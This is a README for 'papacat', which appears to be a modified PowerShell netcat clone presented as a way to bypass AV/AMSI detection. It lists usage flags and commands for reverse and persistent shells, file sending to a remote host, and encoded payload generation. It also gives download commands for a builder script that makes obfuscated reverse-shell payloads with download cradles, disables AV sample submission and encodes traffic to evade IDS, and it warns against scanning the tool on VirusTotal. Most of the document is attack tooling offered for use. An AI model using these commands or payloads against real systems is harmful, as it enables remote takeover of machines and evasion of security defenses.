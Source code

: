      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV AMS1 detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -t 120 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# papacat Automation - Obfuscation

[Builder.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1) cmdlet automates the creation of papacat reverse tcp shell ( crandle + payload + handler )<br />and encode\decode tcp data flow if invoked with `-action 'rawcat' -force 'true'` parameters.<br />
GitHub: [https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1)<br />
Encode\Decode tcp data flow: [ired.team/bypassing-ids-signatures-with-simple-reverse-shells](https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells)


<br />

|Parameter Name|Description|Default Value|Optional value|
|---|---|---|---|
|action|creates raw\obfuscated client (payload)|obfuscate|rawcat|
|ClientName|Reverse tcp shell name (payload)|revshell|user_input|
|VbsName|Vbscript download crandle name|update|user_input|
|Execute|name of the process to start|cmd.exe|powershell.exe|
|TimeOut|seconds to wait before giving up on listening|120|user_input|
|serverPort|Python3 http.server port number|8080|user_input|
|PayloadPort|Reverse tcp shell port number (payload)|666|user_input|
|Force|Disable AV sample submition (local + remote)<br />and encodes client\server tcp data flow if invoked together with -action 'rawcat'|false|true|

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/Builder.ps1" -OutFile "Builder.ps1"
```

#### cmdlet help
```powershell
Get-Help .\Builder.ps1 -full
```

#### execute cmdlet with default values
```powershell
.\Builder.ps1
```

![papacat](https://user-images.githubusercontent.com/23490060/155855813-ff5f7cb3-8156-4e16-8fc7-893e30ced7e6.png)

<br />

#### URLs
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
